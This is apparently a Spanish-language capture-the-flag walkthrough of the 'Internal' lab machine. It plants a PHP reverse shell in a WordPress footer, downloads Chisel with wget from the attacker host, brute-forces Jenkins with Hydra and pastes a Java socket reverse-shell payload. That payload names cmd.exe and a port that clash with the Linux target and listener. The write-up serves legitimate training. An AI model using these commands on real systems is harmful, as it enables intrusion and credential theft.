connect to [10.2.29.254] from (UNKNOWN) [10.10.136.102] 51598
=== ENTORNO DETECTADO ===
User: nobody
UID: 33
GID: 33
OS: Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64
Shell:
bash: cannot set terminal process group (1101): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress$
Se cargó el contenido de la reverse shell personalizada OsiReverse-shell.php directamente en el archivo footer.php del tema activo en WordPress, utilizando el Theme Editor desde el panel de administración.
Una vez guardados los cambios, se abrió la URL principal del sitio: http://internal.thm/blog/
Esto provocó la ejecución del archivo footer.php, lo que activó la shell reversa hacia la máquina atacante.
En la máquina atacante:
Se tenía un listener activo esperando conexiones en el puerto 4444.
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,
Aubreanna needed these credentials for something later. Let her know you have them and where they are.
aubreanna:bubb13guM!@#123
Durante la exploración del sistema comprometido, se encontró un archivo llamado wp-save.txt en el directorio /opt en el servidor víctima. Al abrir el archivo con cat wp-save.txt, se descubrió un conjunto de credenciales almacenadas de manera insegura:
aubreanna:bubb13guM!@#123
www-data@internal:/opt$ su aubreanna
Password:
aubreanna@internal:/opt$ cd /home
aubreanna@internal:/home$ ls
aubreanna
aubreanna@internal:/home$ cd aubreanna
aubreanna@internal:~$ ls -la
total 56
drwx------ 7 aubreanna aubreanna 4096 Aug 3 2020 .
drwxr-xr-x 3 root root 4096 Aug 3 2020 ..
-rwx------ 1 aubreanna aubreanna 7 Aug 3 2020 .bash_history
-rwx------ 1 aubreanna aubreanna 220 Apr 4 2018 .bash_logout
-rwx------ 1 aubreanna aubreanna 3771 Apr 4 2018 .bashrc
drwx------ 2 aubreanna aubreanna 4096 Aug 3 2020 .cache
drwx------ 3 aubreanna aubreanna 4096 Aug 3 2020 .gnupg
drwx------ 3 aubreanna aubreanna 4096 Aug 3 2020 .local
-rwx------ 1 root root 223 Aug 3 2020 .mysql_history
-rwx------ 1 aubreanna aubreanna 807 Apr 4 2018 .profile
drwx------ 2 aubreanna aubreanna 4096 Aug 3 2020 .ssh
-rwx------ 1 aubreanna aubreanna 0 Aug 3 2020 .sudo_as_admin_successful
-rwx------ 1 aubreanna aubreanna 55 Aug 3 2020 jenkins.txt
drwx------ 3 aubreanna aubreanna 4096 Aug 3 2020 snap
-rwx------ 1 aubreanna aubreanna 21 Aug 3 2020 user.txt
aubreanna@internal:~$
Tras obtener las credenciales de aubreanna, se logró cambiar de usuario satisfactoriamente desde el entorno web. Esto permitió acceder a su directorio personal, donde se encontró información potencialmente sensible.
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
Dentro del directorio personal del usuario aubreanna, se encontró un archivo llamado jenkins.txt que contenía información clave: una instancia de Jenkins se está ejecutando de manera interna en la dirección 172.17.0.2:8080.
Este descubrimiento sugiere la presencia de un servicio de automatización de despliegue o integración continua accesible únicamente desde la red interna o posiblemente desde el mismo host comprometido.
El acceso a Jenkins podría representar una oportunidad crítica para continuar con la explotación, especialmente si la instancia se encuentra mal configurada, tiene plugins vulnerables o credenciales por defecto. También puede ofrecer vectores para escalar privilegios a root si se encuentra corriendo con altos privilegios o si se permite la ejecución arbitraria de comandos.

Para acceder al servicio Jenkins expuesto internamente, se decidió utilizar Chisel, una herramienta de tunneling basada en TCP sobre HTTP. Chisel permite crear túneles reversos y forwards a través de conexiones HTTP/S, ideal para situaciones donde los servicios están restringidos a redes internas o contenedores.

Luego de descargar el binario de Chisel, se le otorgaron permisos de ejecución para permitir su uso como herramienta standalone en sistemas Linux. Esto se hizo como paso previo a su transferencia al entorno comprometido.
Para facilitar la entrega del archivo a través de la red, se utilizó un servidor HTTP temporal basado en Python (python3 -m http.server) desde la máquina atacante. Este método rápido y eficaz permite servir archivos en el entorno local sin requerir configuraciones adicionales, ideal para entornos de pentesting.
aubreanna@internal:/tmp$ wget http://10.2.29.254:8000/chisel_linux
--2025-04-30 18:29:43-- http://10.2.29.254:8000/chisel_linux
Connecting to 10.2.29.254:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel_linux’
chisel_linux 100%[===================>] 8.94M 165KB/s in 54s
2025-04-30 18:30:37 (171 KB/s) - ‘chisel_linux’ saved [9371800/9371800]
aubreanna@internal:/tmp$ ls
chisel_linux
aubreanna@internal:/tmp$
Desde el sistema comprometido, se descargó correctamente el binario de Chisel utilizando wget, apuntando a un servidor HTTP levantado en la máquina atacante. La dirección usada incluía la IP y el puerto (8000), lo cual permitió acceder al archivo servido temporalmente.
La descarga fue exitosa y el archivo chisel_linux quedó guardado en el directorio /tmp, un lugar comúnmente usado para almacenar herramientas temporalmente durante pruebas de penetración, dado que suele ser de escritura libre para todos los usuarios.
#./chisel_linux server --reverse -p 1234
2025/04/30 17:03:20 server: Reverse tunnelling enabled
2025/04/30 17:03:20 server: Fingerprint lV8bB+ea7JJl76TWMOwDGJo+R/G5WKzgt04En1zE1M4=
2025/04/30 17:03:21 server: Listening on http://0.0.0.0:1234
2025/04/30 17:15:23 server: session#1: tun: proxy#R:5000=>8080: Listening
aubreanna@internal:/tmp$ ./chisel_linux client 10.2.29.254:1234 R:5000:127.0.0.1:8080
2025/04/30 21:14:48 client: Connecting to ws://10.2.29.254:1234
2025/04/30 21:14:50 client: Connected (Latency 280.303061ms)
Se utilizó Chisel para crear un túnel reverso entre la máquina víctima y la atacante con el objetivo de exponer el servicio interno de Jenkins al entorno externo.
Desde la máquina atacante se lanzó Chisel en modo servidor con soporte de túneles reversos (--reverse), escuchando en el puerto 1234. Esto permitió esperar conexiones entrantes desde el host comprometido.
Posteriormente, desde el sistema víctima, se ejecutó el binario de Chisel como cliente, apuntando a la IP del atacante y estableciendo un túnel de red desde 127.0.0.1:8080 (Jenkins) hacia el puerto 5000 del atacante. El túnel se estableció exitosamente, como lo indica la conexión y latencia reportada.
Gracias a esta técnica, el servicio Jenkins que solo era accesible desde la red interna quedó disponible a través de http://localhost:5000 en el entorno del atacante, permitiendo su análisis y posible explotación sin necesidad de pivoting complejo.

Tras configurar exitosamente el túnel reverso con Chisel, se pudo acceder al panel de inicio de sesión de Jenkins desde el navegador en la máquina atacante, utilizando la URL http://127.0.0.1:5000.
Esto confirma que el servicio Jenkins, originalmente accesible solo desde la red interna (según lo indicado en el archivo jenkins.txt), ha sido correctamente expuesto de forma local mediante el túnel creado. En esta etapa, el siguiente paso consiste en obtener credenciales válidas o aprovechar posibles vulnerabilidades del panel para lograr una escalada de privilegios adicional.

Utilizando Burp Suite como proxy de análisis, se interceptó la solicitud POST enviada al endpoint /j_acegi_security_check en el puerto local 5000, correspondiente al panel de Jenkins accesible gracias al túnel creado con Chisel. En el cuerpo de la solicitud se observan los parámetros j_username y j_password, enviados con valores de prueba (test:test).
Este punto es clave para intentar ataques de fuerza bruta o fuzzing sobre los campos del login, aprovechando la visibilidad directa de los headers, cookies y payloads. La configuración del proxy permite automatizar intentos desde herramientas como Intruder para identificar credenciales válidas de acceso a Jenkins.
#hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5000 -f http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-30 21:24:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 13748006 login tries (l:1/p:13748006), ~859251 tries per task
[DATA] attacking http-post-form://127.0.0.1:5000/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[5000][http-post-form] host: 127.0.0.1 login: admin password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-30 21:25:37
Se utilizó Hydra para realizar un ataque de fuerza bruta contra el login HTTP de Jenkins expuesto en 127.0.0.1:5000, usando el siguiente comando:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5000 -f http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'
Resultado exitoso: Usuario: admin y Contraseña: spongebob

Tras realizar un túnel reverso con Chisel y capturar las credenciales válidas, se logró acceder satisfactoriamente al panel de administración de Jenkins como el usuario admin.

Se utilizó el siguiente payload para ejecutar un reverse shell hacia el atacante:
String host=”localhost”;
int port=8044;
String cmd=”cmd.exe”;
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);
try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
#nc -lvnp 444 listening on [any] 444 ... connect to [10.2.29.254] from (UNKNOWN) [10.10.165.30] 49674 ls bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var script /dev/null -c bash Script started, file is /dev/null jenkins@jenkins:/$ cd /home ls cd /home jenkins@jenkins:/home$ ls jenkins@jenkins:/home$ whoami whoami jenkins jenkins@jenkins:/home$ cd jenkins cd jenkins bash: cd: jenkins: No such file or directory jenkins@jenkins:/home$ cd /opt cd /opt jenkins@jenkins:/opt$ ls ls note.txt jenkins@jenkins:/opt$ cat note.txt cat note.txt Aubreanna, Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here. Use them if you need access to the root user account. root:tr0ub13guM!@#123>
Tras obtener acceso al sistema como el usuario jenkins mediante la consola Groovy de Jenkins, se procedió a explorar el entorno local en busca de información sensible. Durante esta fase se identificó un archivo llamado note.txt ubicado en el directorio /opt.
Este archivo contenía una nota dirigida a un usuario interno, en la cual se indicaba que las credenciales del usuario root estaban protegidas tras el contenedor de Jenkins como una capa adicional de defensa. Sin embargo, dichas credenciales estaban almacenadas en texto claro, lo cual representa una falla crítica en la seguridad.
#ssh root@10.10.254.88
The authenticity of host '10.10.254.88 (10.10.254.88)' can't be established.
ED25519 key fingerprint is SHA256:seRYczfyDrkweytt6CJT/aBCJZMIcvlYYrTgoGxeHs4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.254.88' (ED25519) to the list of known hosts.
root@10.10.254.88's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Thu May 1 01:48:12 UTC 2025
System load: 0.0 Processes: 121
Usage of /: 63.8% of 8.79GB Users logged in: 0
Memory usage: 39% IP address for eth0: 10.10.254.88
Swap usage: 0% IP address for docker0: 172.17.0.1
=> There is 1 zombie process.
* Canonical Livepatch is available for installation.
- Reduce system reboots and improve kernel security. Activate at:
https://ubuntu.com/livepatch
0 packages can be updated.
0 updates are security updates.
Last login: Mon Aug 3 19:59:17 2020 from 10.6.2.56
root@internal:~# whoami
root
root@internal:~#
Con las credenciales de root previamente descubiertas en el archivo note.txt, se estableció una conexión SSH directamente al sistema. La autenticación fue exitosa, confirmando acceso total con privilegios de superusuario.
Este paso marca la obtención definitiva de control sobre la máquina objetivo, completando así la escalada de privilegios y asegurando un acceso persistente como root.